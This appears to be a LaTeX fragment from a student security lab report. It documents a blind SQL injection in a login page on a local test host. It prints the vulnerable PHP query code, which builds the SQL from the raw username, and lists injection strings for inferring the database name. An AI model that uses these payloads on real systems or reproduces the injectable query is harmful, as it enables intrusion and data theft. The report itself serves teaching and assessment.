 \documentclass[titlepage]{article}
\begin{document}

      \subsubsection{Location} %
      \label{ssub:sql_injection_blind_location}
         
      The location of this vulnerability in the website is at the login page. \url{https://192.168.56.150/login.php}, but to be more precise it is in the file server.php. If a incorrect username is entered then the error states so, however if a valid username is used with an incorrect password then the error states a different prompt. 

      By realising this, an attacker than then check if the username field is injectable and vulnerable to SQL injection 

      \begin{lstlisting}

      $sql = "SELECT * FROM Users WHERE username = '$username'";
      $results = mysqli_query($db,$sql);

      /*...*/

      $count = mysqli_num_rows($results);

      if($count > 0){
         $row = mysqli_fetch_assoc($results);
         if(password_verify($password, $row['password'])){
            /*Redirect to login*/
         }else
            array_push($errors, "Invalid password for user: $username");
      }else
         array_push($errors, "No user exists with that username");
      \end{lstlisting}


      \subsubsection{Instructions} %
      \label{ssub:sql_injection_blind_instructions}
      
      Enter these values into the username field and press submit. The value of the password field is irrelevant 

      \begin{enumerate}
         \item hello' OR '1'='1'\#
         \item hello' OR '1'='2'\#
      \end{enumerate}
         Very simple examples to show that the field allows multiple checks in it. The ' are used to escape the current string. Which quotes to use can be determined though multiple attempts to see which ones work 
      \begin{enumerate}[resume]
         \item hello' OR database() = 'assignment'\#
         \item hello' OR database() = 'HelloWorld'\#
      \end{enumerate}
         Returns true and then false, this shows that the name of the database is assignment. Obviously guessing this in one hit is quite unlikely and the multiple questions would be asked before this is discovered.
\end{document}
